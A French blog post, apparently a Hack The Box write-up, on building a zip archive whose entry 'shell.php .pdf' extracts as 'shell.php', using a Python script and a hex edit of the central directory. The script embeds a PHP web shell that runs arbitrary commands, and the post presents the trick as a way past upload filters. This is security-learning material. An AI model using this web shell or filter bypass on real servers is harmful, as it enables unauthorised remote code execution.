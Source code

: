 ```yaml
---
title: Décompresser un zip avec une extension différente pour les fichiers.
img_path: "/assets/img/posts/file_zip_upload_with_different_name"
---
```


## Introduction

> À l'occasion de la résolution d'une machine hack the box, une incompréhension de ma part à propos d'un payload a mené à la "découverte" d'une chose plutôt rigolote et qui pourrait s'avérer utile dans certain cas précis : avoir une archive zip où, un fichier nommé par exemple `shell.php. pdf`se transforme en `shell.php` à la décompression.

### Comment ça se passe

Pour faire synthétique, voici la procédure : 

- 1) Créer un fichier zip via python (script de hacktricks) :

```python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

> On remarque que le nom a un espace  entre `php` et `pdf`.

- 2) Editer le fichier zip avec une éditeur héxadécimal. Remplacer l'octet `20` par `00` du nom du fichier placé dans le *[Central Directory Header](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)*.

```hex
# avant le changement du nom dans le  Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# après le changement du nom dans le the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```

- 3) Profit :

![Proof of concept du tricks](poc.png)

### Dans quels cas c'est utile ?

De ce que je peux supputer, c'est utile si l'application ne checke pas la conformité entre le nom du fichier et ce qui est effectivement décompressé. Si l'application ne teste que le *local file name*,  c'est une bonne indication pour au moins tester cette petite technique.

On peut la retrouver dans hacktrick [ici](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-upload.md#decompress-with-a-different-name) \o/
 *


* À l'heure actuelle le script original ne fonctionne qu'avec python ou python2.7... Une PR a été faite afin de rendre le script compatible avec python2.7 et python3, en reprenant le code original de hacktricks.
